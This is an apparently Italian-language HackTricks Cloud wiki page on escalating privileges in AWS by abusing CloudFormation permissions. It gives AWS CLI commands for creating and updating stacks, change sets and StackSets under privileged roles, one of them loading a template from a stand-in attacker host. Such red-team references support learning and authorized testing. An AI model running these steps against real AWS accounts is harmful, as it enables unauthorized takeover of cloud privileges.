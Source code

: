 # AWS - Cloudformation Privesc

{% hint style="success" %}
Impara e pratica Hacking AWS:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Impara e pratica Hacking GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}

## cloudformation

Per ulteriori informazioni su cloudformation controlla:

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

Un attaccante con questi permessi **può elevare i privilegi** creando un **CloudFormation stack** con un template personalizzato, ospitato sul proprio server, per **eseguire azioni sotto i permessi di un ruolo specificato:**
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
In the following page you have an **esempio di sfruttamento** con il permesso aggiuntivo **`cloudformation:DescribeStacks`**:

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**Impatto Potenziale:** Privesc al ruolo di servizio cloudformation specificato.

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

In questo caso puoi **sfruttare uno stack cloudformation esistente** per aggiornarlo e aumentare i privilegi come nel scenario precedente:
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
Il permesso `cloudformation:SetStackPolicy` può essere utilizzato per **darti il permesso `UpdateStack`** su uno stack e eseguire l'attacco.

**Impatto Potenziale:** Privesc al ruolo di servizio cloudformation specificato.

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

Se hai questo permesso ma **nessun `iam:PassRole`** puoi comunque **aggiornare gli stack** utilizzati e abusare dei **ruoli IAM che hanno già allegato**. Controlla la sezione precedente per un esempio di exploit (basta non indicare alcun ruolo nell'aggiornamento).

Il permesso `cloudformation:SetStackPolicy` può essere utilizzato per **darti il permesso `UpdateStack`** su uno stack e eseguire l'attacco.

**Impatto Potenziale:** Privesc al ruolo di servizio cloudformation già allegato.

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Un attaccante con permessi per **passare un ruolo e creare & eseguire un ChangeSet** può **creare/aggiornare un nuovo stack cloudformation abusando dei ruoli di servizio cloudformation** proprio come con CreateStack o UpdateStack.

Il seguente exploit è una **variazione del**[ **CreateStack one**](./#iam-passrole-cloudformation-createstack) utilizzando i **permessi ChangeSet** per creare uno stack.
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
Il permesso `cloudformation:SetStackPolicy` può essere utilizzato per **darti i permessi `ChangeSet`** su uno stack e eseguire l'attacco.

**Impatto Potenziale:** Privesc ai ruoli di servizio cloudformation.

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Questo è simile al metodo precedente senza passare **ruoli IAM**, quindi puoi semplicemente **sfruttare quelli già attaccati**, basta modificare il parametro:
```
--change-set-type UPDATE
```
**Impatto Potenziale:** Privesc al ruolo di servizio cloudformation già allegato.

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

Un attaccante potrebbe abusare di queste autorizzazioni per creare/aggiornare StackSets per abusare di ruoli cloudformation arbitrari.

**Impatto Potenziale:** Privesc ai ruoli di servizio cloudformation.

### `cloudformation:UpdateStackSet`

Un attaccante potrebbe abusare di questa autorizzazione senza il permesso passRole per aggiornare StackSets per abusare dei ruoli cloudformation allegati.

**Impatto Potenziale:** Privesc ai ruoli cloudformation allegati.

## Riferimenti

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
